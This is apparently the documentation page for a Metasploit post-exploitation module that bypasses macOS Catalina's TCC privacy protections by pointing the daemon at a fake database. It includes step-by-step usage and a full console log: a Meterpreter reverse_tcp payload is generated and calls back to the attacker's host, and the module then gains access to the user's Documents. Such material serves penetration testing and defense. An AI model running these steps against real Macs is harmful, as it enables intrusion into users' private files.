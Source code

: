## Vulnerable Application

This module exploits a vulnerability in the TCC daemon on macOS Catalina
(<= 10.15.5) in order to grant TCC entitlements. The TCC daemon can be
manipulated (by setting the HOME environment variable) to use a new user
controlled location as the TCC database. We can then grant ourselves
entitlements by inserting them into this new database.

## Verification Steps

  1. Start msfconsole
  1. Get a user session on OSX 10.15.5 (or lower)
  1. Do: ```use post/osx/escalate/tccbypass```
  1. Do: ```set SESSION -1```
  1. Do: ```run```
  1. Your session should now be able to access the ~/Documents folder

## Scenarios

### User level shell on macOS Catalina 10.15.4

```
msf > use payload/osx/x64/meterpreter/reverse_tcp
msf payload(osx/x64/meterpreter/reverse_tcp) > set lhost 192.168.135.197
lhost => 192.168.135.197
msf payload(osx/x64/meterpreter/reverse_tcp) > set lport 4567
lport => 4567
msf payload(osx/x64/meterpreter/reverse_tcp) > generate -f macho -o revtcpx64.mac
[*] Writing 17204 bytes to revtcpx64.mac...
msf payload(osx/x64/meterpreter/reverse_tcp) > to_handler
[*] Payload Handler Started as Job 0

[*] Started reverse TCP handler on 192.168.135.197:4567 
msf payload(osx/x64/meterpreter/reverse_tcp) > [*] Transmitting first stager...(210 bytes)
[*] Transmitting second stager...(8192 bytes)
[*] Sending stage (799916 bytes) to 192.168.132.178
[*] Meterpreter session 1 opened (192.168.135.197:4567 -> 192.168.132.178:49156) at 2020-09-10 11:44:05 -0500

msf payload(osx/x64/meterpreter/reverse_tcp) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer     : msfusers-Mac.local
OS           : macOS Catalina (macOS 10.15.4)
Architecture : x86
BuildTuple   : x86_64-apple-darwin
Meterpreter  : x64/osx
meterpreter > getuid
Server username: msfuser @ msfusers-Mac.local (uid=501, gid=20, euid=501, egid=20)
meterpreter > ls Documents
[-] 1009: Operation failed: 1
meterpreter > background
[*] Backgrounding session 1...
msf payload(osx/x64/meterpreter/reverse_tcp) > use post/osx/escalate/tccbypass 
msf post(osx/escalate/tccbypass) > show options

Module options (post/osx/escalate/tccbypass):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.

msf post(osx/escalate/tccbypass) > set session 1
session => 1
msf post(osx/escalate/tccbypass) > set verbose true
verbose => true
msf post(osx/escalate/tccbypass) > run

[*] Creating TCC directory /tmp/.SZulaEVB/Library/Application Support/com.apple.TCC
[+] fake TCC DB found: /tmp/.SZulaEVB/Library/Application Support/com.apple.TCC/TCC.db
[+] TCC.db was successfully updated!
[*] To cleanup, run:
launchctl unsetenv HOME && launchctl stop com.apple.tccd && launchctl start com.apple.tccd
rm -rf '/tmp/.SZulaEVB'

[*] Post module execution completed
msf post(osx/escalate/tccbypass) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: msfuser @ msfusers-Mac.local (uid=501, gid=20, euid=501, egid=20)
meterpreter > ls Documents 
Listing: Documents
==================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  0     fil   2020-08-14 13:51:29 -0500  .localized

meterpreter > 
```
